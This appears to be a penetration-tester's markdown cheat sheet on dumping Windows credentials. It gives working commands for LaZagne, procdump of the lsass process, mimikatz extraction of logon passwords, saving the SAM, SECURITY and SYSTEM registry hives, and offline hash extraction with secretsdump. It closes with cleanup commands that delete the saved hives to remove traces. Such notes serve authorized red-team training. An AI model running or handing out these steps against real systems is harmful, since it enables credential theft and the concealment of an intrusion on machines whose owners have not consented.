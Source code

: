 ## Tools
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
    ```batch
    laZagne.exe all
    ```

---
## Dumping Credentials

### Procdump & Mimikatz

Useful if AV cannot be disabled and does not block procdump.exe

1. On target machine
    * Via procdump.exe
        ```batch
        procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        ```
    * Via Task manager
        * Open `Task Manager` -> Details -> lsass.exe -> (++right-button++) -> "Create dump file"
    
1. Retrieve file

1. On local machine (Windows)
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```


### Impacket Secretsdump

1. On target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../../#data-exfiltration)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```


[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
